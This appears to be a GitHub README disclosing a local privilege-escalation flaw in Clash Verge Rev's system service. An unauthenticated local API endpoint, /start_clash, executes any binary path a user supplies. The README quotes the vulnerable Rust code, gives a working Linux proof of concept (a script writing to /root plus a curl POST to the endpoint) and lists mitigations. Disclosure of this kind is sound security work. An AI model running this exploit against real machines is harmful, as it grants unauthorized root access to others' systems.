



# clash-verge-rev-privilege-escalation-poc
## Vulnerability Title

[Clash-Verge-Rev](https://github.com/clash-verge-rev/clash-verge-rev) unauthorized API leads to local privilege escalation

## Description

Clash Verge Rev forces the installation of system services([clash-verge-service](https://github.com/clash-verge-rev/clash-verge-service)) by default and exposes key functions through the unauthorized HTTP API `/start_clash`, allowing local users to submit arbitrary bin_path parameters and pass them directly to the service process for execution, resulting in local privilege escalation.

- **Affected Systems**: Clash Verge Rev<=v2,2,3 (Linux/Windows/macOS)

## Technical Details

1. The service process listens on 127.0.0.1:33211 via the Warp framework, and no authentication is implemented for the `/start_clash` interface

[clash-verge-service/src/service/mod.rs](https://github.com/clash-verge-rev/clash-verge-service/blob/ffcccc6095e052534980230f9e0ca97db2675062/src/service/mod.rs#L100)

```rust
// Line 29
const LISTEN_PORT: u16 = 33211;
// Line 77~80
let api_start_clash = warp::post()
    .and(warp::path("start_clash"))
    .and(warp::body::json())
    .map(move |body: StartBody| wrap_response!(COREMANAGER.lock().unwrap().start_clash(body)));
// Line 98~107
warp::serve(
    api_get_version
        .or(api_start_clash)
        .or(api_stop_clash)
        .or(api_stop_service)
        .or(api_get_clash)
        .or(api_exit_sys),
)
.run(([127, 0, 0, 1], LISTEN_PORT))
.await;
```

2. `start_clash()` calls `start_mihomo()` and `start_mihomo()` calls the function `process::spawn_process(bin_path, &args, log) `passing in bin_path. `spawn_process()` calls `std::Command::new(command)` to execute the command

[clash-verge-service/src/service/core.rs](https://github.com/clash-verge-rev/clash-verge-service/blob/ffcccc6095e052534980230f9e0ca97db2675062/src/service/core.rs#L156)

```rust
let pid = process::spawn_process(bin_path, &args, log)?;
```

[clash-verge-service/src/service/process.rs](https://github.com/clash-verge-rev/clash-verge-service/blob/ffcccc6095e052534980230f9e0ca97db2675062/src/service/process.rs#L8)

```rust
let child = Command::new(command)
    .args(args)
    .stdout(log)
    .stderr(Stdio::null())
    .spawn()?;
```

## Proof of Concept

### Linux

1. Create a malicious script: (normal user)

```bash
echo -e '#!/bin/bash\nid > /root/pwned' > /home/user/pwn  
chmod +x /home/user/pwn 
```

2. Send an unauthenticated request:

```bash
curl -XPOST http://127.0.0.1:33211/start_clash \
     -H 'Content-Type: application/json' \
     -d '{
       "bin_path":"/home/user/pwn",
       "config_dir":"/tmp",
       "config_file":"/dev/null",
       "log_file":"/tmp/x"
     }'
```



3. Verify privilege escalation:

```bash
sudo cat /root/pwned
```





## Mitigation

1. Logic Fix: Remove user control over `bin_path`; use a hardcoded allowlist
2. Run the service under a non-privileged user and grant necessary capabilities via `setcap`
